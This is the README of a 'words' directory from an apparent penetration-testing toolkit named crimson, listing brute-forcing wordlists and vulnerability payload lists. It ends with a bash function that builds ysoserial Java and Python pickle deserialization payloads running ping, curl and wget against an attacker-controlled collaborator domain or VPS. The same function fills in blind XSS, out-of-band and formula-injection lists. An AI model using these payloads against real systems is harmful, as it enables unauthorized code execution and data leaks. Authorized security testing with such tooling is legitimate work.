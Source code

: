 # WORDS

> This directory contains wordlists of words that I have collected from many different sources and filtered for `crimson`.

* :small_red_triangle_down: exp directory

> This directory contains wordlists for manual and automatic testing of various known vulnerailities.

* :small_red_triangle_down: skeleton directory

> This directory could help you build your own wordlist for directory brute-forcing.

* :small_red_triangle_down: BCK_EXT

> This wordlist contains various extensions for `crimson_backuper`

* :small_red_triangle_down: blank

> This is blank wordlist for `wfuzz`

* :small_red_triangle_down: bug

> This wordlist contains various strings that could make and internal server error or find local file inclusions, path traversals, remote code execution and other known vulnerabilities. It is all around wordlist for manual testing.

* :small_red_triangle_down: dir

> This is wordlist for directory brute-forcing.

* :small_red_triangle_down: npm_names_10000.txt and npm_names_1mln.txt

> This is wordlist for /js/vendor path bruteforcing

* :small_red_triangle_down: quick.txt

> This is wordlist for common directory bruteforcing

* :small_red_triangle_down: dns

> This is wordlist for the subdomain brute-forcing

* :small_red_triangle_down: dns-altsdns.txt

> This is wordlist for `altdns` mutations

* :small_red_triangle_down: exp/AUTH_BYPASS

> First use "Battering ram" with first 200 lines. Then whole list with sniper as username(admin|your_account), then password(Pa$$P0licy_baby123).


## ALIAS
```bash
function words {
    # Java deserialization payload URLDNS (* swap the java path if does not work)
    java -jar "$HOME"/tools/crimson/scripts/GOAST/ysoserial.jar URLDNS "http://$1" | base64 -w0 |sed "s/$/\n/g" > oob.fuzz
    # PYTHON DESERIALIZATION PING CURL WGET
    python3 $HOME/tools/crimson/scripts/pickle_ser.py "ping $1" >> oob.fuzz
    python3 $HOME/tools/crimson/scripts/pickle_ser.py "curl $1/curl_pickle_ser" >> oob.fuzz
    python3 $HOME/tools/crimson/scripts/pickle_ser.py "wget $1/wget_pickle_ser" >> oob.fuzz
    python3 $HOME/tools/crimson/scripts/pickle_ser.py "ping $2" >> oob.fuzz
    if [[ -z "$3" ]]; then
      python3 $HOME/tools/crimson/scripts/pickle_ser.py "curl $2/curl_pickle_ser" >> oob.fuzz
      python3 $HOME/tools/crimson/scripts/pickle_ser.py "wget $2/wget_pickle_ser" >> oob.fuzz
    else
      python3 $HOME/tools/crimson/scripts/pickle_ser.py "curl $2:$3/curl_pickle_ser" >> oob.fuzz
      python3 $HOME/tools/crimson/scripts/pickle_ser.py "wget $2:$3/wget_pickle_ser" >> oob.fuzz
    fi
    # Preparing OOB payloadlist and copying it to the clipboard
    cat "$HOME"/tools/crimson/words/exp/OOB | sed "s/domain_collab/$1/g" |sed "s/vps_ip/$2/g" >> oob.fuzz1
    cat oob.fuzz1 | sed "s/$2:80/$2:$3/g" >> oob.fuzz && rm oob.fuzz1
    cat "$HOME"/tools/crimson/words/exp/BLIND_XSS | sed "s/domain_collab/$1/g" >> oob.fuzz
    cat oob.fuzz | clip.exe
    # Preparing other wordlists and files to upload
    cat "$HOME"/tools/crimson/words/bug >> bug.fuzz
    cat "$HOME"/tools/crimson/words/exp/http_leaks | sed "s/domain_collab/$1/g" >> http_leaks
    cat "$HOME"/tools/crimson/words/exp/bypass_ext >> bypass_ext
    cat "$HOME"/tools/crimson/words/exp/BLIND_XSS | sed "s/domain_collab/$1/g" >> BLIND_XSS
    cat "$HOME"/tools/crimson/words/exp/headers | sed "s/domain_collab/$1/g" >> headers.fuzz
    # Preparing upload
    mkdir upload
    cd upload
    cp "$HOME"/tools/crimson/upload/* .
    cat exiftool.jpg | sed "s/domain_collab/$1/g" >> 123 && mv 123 exiftooldomain.jpg
    cat exiftool.jpg | sed "s/domain_collab/$2:$3/g" >> 123 && mv 123 exiftoolvps.jpg
    cat formula_injections.txt | sed "s/domain_collab/$1/g" |sed "s/vps_ip/$2/g" >> formula_injections1
    cat formula_injections1 | sed "s/$2:80/$2:$3/g" >> formula_injections.txt && rm formula_injections1
    cd ..
}

```

